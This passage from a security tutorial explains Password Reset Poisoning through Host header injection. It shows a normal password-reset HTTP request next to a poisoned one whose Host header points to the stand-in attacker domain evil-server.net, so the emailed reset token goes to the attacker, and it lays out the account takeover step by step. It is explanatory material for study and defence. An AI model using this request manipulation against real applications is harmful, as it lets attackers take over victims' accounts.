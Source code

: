 ## 3\. Password Reset Poisoning

Password Reset Poisoning is a specific, high-impact attack that is often a direct result of a Host Header Injection vulnerability. It allows an attacker to take over a user's account by manipulating the password reset link sent to them via email.

### Password Reset Poisoning Methodology

The attack exploits the trust an application places in the Host header when generating a one-time password reset link.

1.  **Initiate Reset with Malicious Header**: The attacker navigates to the "Forgot Password" page and requests a password reset for the victim's account (e.g., `victim@email.com`). They intercept this request and modify the Host header to point to a domain they control.

    **Original Request:**

    ```http
    POST /request-password-reset HTTP/1.1
    Host: [www.vulnerable-app.com](https://www.vulnerable-app.com)
    Content-Type: application/x-www-form-urlencoded

    email=victim@email.com
    ```

    **Poisoned Request:**

    ```http
    POST /request-password-reset HTTP/1.1
    Host: evil-server.net
    Content-Type: application/x-w-form-urlencoded

    email=victim@email.com
    ```

2.  **Generate Poisoned Link**: The application server receives the request. It generates a unique, secret password reset token (e.g., `a1b2c3d4e5f6`) and constructs the reset link. Because it incorrectly uses the Host header from the attacker's request, the generated link is:
    `https://evil-server.net/reset?token=a1b2c3d4e5f6`

3.  **Deliver Link to Victim**: The application sends this poisoned link in an email to the legitimate user (`victim@email.com`).

4.  **Capture the Token**: The victim receives the email, which appears legitimate. They click the link, and their browser sends a request containing the secret token directly to the attacker's server (`evil-server.net`).

5.  **Account Takeover**: The attacker's server logs the incoming request, capturing the secret token. The attacker then uses this token on the actual application (`www.vulnerable-app.com`) to reset the victim's password and gain complete control of their account.

## 4\. Real-World Examples & Impact

Numerous high-profile companies have been affected by vulnerabilities stemming from Host Header Injection.
